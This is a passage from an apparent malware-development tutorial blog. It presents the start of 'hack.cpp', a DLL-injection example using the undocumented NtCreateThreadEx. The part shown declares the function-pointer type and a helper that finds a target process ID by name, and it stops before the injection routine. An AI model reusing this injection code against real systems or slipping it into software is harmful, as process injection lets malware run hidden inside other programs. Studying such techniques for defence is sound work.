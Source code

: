 Then, let's take a look to the source code of our malware (`hack.cpp`):
```cpp
/*
hack.cpp
DLL injection via undocumented NtCreateThreadEx example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/12/06/malware-injection-9.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

#pragma comment(lib, "advapi32.lib") 

typedef NTSTATUS(NTAPI* pNtCreateThreadEx) (
  OUT PHANDLE hThread,
  IN ACCESS_MASK DesiredAccess,
  IN PVOID ObjectAttributes,
  IN HANDLE ProcessHandle,
  IN PVOID lpStartAddress,
  IN PVOID lpParameter,
  IN ULONG Flags,
  IN SIZE_T StackZeroBits,
  IN SIZE_T SizeOfStackCommit,
  IN SIZE_T SizeOfStackReserve,
  OUT PVOID lpBytesBuffer
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```